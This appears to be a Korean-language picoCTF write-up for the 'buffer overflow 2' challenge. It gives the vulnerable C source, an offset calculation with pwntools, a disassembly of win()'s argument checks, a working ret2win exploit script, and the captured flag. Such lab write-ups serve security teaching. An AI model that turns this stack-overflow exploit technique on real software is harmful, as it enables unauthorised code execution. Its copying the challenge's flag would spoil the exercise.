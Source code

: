 # [buffer overflow 2](https://play.picoctf.org/practice/challenge/259?category=6&originalEvent=70&page=1)
<br />

**Discription:**
> Control the return address and arguments
<br />

**Source Code:**
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

#define BUFSIZE 100
#define FLAGSIZE 64

void win(unsigned int arg1, unsigned int arg2) {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  if (arg1 != 0xCAFEF00D)
    return;
  if (arg2 != 0xF00DF00D)
    return;
  printf(buf);
}

void vuln(){
  char buf[BUFSIZE];
  gets(buf);
  puts(buf);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);

  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  puts("Please enter your string: ");
  vuln();
  return 0;
}

```
<br />

**Binary Protections:**
```yaml
vuln: ELF 32-bit LSB executable, Intel i386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, BuildID[sha1]=a429aa852db1511dec3f0143d93e5b1e80e4d845, for GNU/Linux 3.2.0, not stripped

[*] '/home/kali/pico/buffer_overflow_2/vuln'
    Arch:       i386-32-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x8048000)
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
```
<br />

# 1. 오프셋 구하기
문제를 풀이하기 위해서는 gets(buf)에서 발생하는 스택 버퍼오버플로우 취약점으로 `RET` 주소를 `win`으로 덮고 실행해야 합니다. 이때, win의 인자와 문제에서 요구하는 값과 일치해야 FLAG가 출력됩니다. 공격 코드를 작성하기 전 버퍼~RET까지의 오프셋을 구해야 합니다.
```bash
$ python3 -q
>>> from pwn import *
>>> p = process("./vuln")
[+] Starting local process './vuln': pid 754
>>> p.sendline(cyclic(200))
>>> p.wait()
[*] Process './vuln' stopped with exit code -11 (SIGSEGV) (pid 754)
>>> Corefile("./core.754")
[+] Parsing corefile...: Done
[*] '/home/kali/pico/core.754'
    Arch:      i386-32-little
    EIP:       0x62616164
    ESP:       0xff84a760
    Exe:       '/home/kali/pico/vuln' (0x8048000)
    Fault:     0x62616164
Corefile('/home/kali/pico/core.754')
>>> cyclic_find(0x62616164)
112
```
오프셋은 112 입니다.

> [!NOTE]
> 위 처럼 구할 수 있는 이유?
> <br />
>
> 프로그램 종료 전 RET은 스택 최상단에 있는 복귀 주소(Return address)를 꺼내어 EIP에 넣고 프로그램의 흐름을 호출자(main)로 되돌립니다. 그러나 패턴 문자열로 버퍼 오버플로우를 일으키면, 이 복귀 주소가 패턴 데이터로 덮이게 됩니다. 그 결과 RET은 정상적인 복귀 주소 대신 패턴의 일부를 EIP에 복사하게 되고, 프로그램은 잘못된 주소로 점프하려다 크래시가 발생하게 됩니다. 이때 EIP에 저장된 값이 패턴 문자열의 몇 번째 위치인지 확인하면, 버퍼의 시작점에서 부터 Return Address까지의 정확한 오프셋을 계산할 수 있습니다.
<br />


# 2. `win()`함수 인자의 정확한 오프셋 확인하기

```asm
   0x8049300 <win+106>    lea    eax, [ebp - 0x4c]
   0x8049303 <win+109>    push   eax
   0x8049304 <win+110>    call   fgets@plt                   <fgets@plt>

   0x8049309 <win+115>    add    esp, 0x10
 ► 0x804930c <win+118>    cmp    dword ptr [ebp + 8], 0xcafef00d
   0x8049313 <win+125>    jne    win+153                     <win+153>

   0x8049315 <win+127>    cmp    dword ptr [ebp + 0xc], 0xf00df00d
   0x804931c <win+134>    jne    win+156                     <win+156>
```
위 분석을 통해 첫 번째 인자는 `ebp + 0x8`에 위치하고, 두 번째 인자는 `ebp + 0xc`에 위치하는 것을 알 수 있습니다. 분석한 정보를 가지고 공격 코드를 작성할 수 있습니다.

```python
from pwn import *

p = process("./vuln")
# p = remote("saturn.picoctf.net", 55191)

pay = b"A"*112
pay += p32(0x8049296)  # win addr
pay += b"A"*4
pay += p32(0xCAFEF00D) # arg1 (ebp + 0x8)
pay += p32(0xF00DF00D) # arg2 (ebp + 0xc)

p.send(pay)
p.interactive()
```
```bash
$ python3 test.py
[+] Opening connection to saturn.picoctf.net on port 55191: Done
[*] Switching to interactive mode
Please enter your string:
$
\xf0\xfe\xcaAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x96\x92\x04\x08AAAA
picoCTF{argum3nt5_4_d4yZ_3c04eab0}[*] Got EOF while reading in interactive
$
```
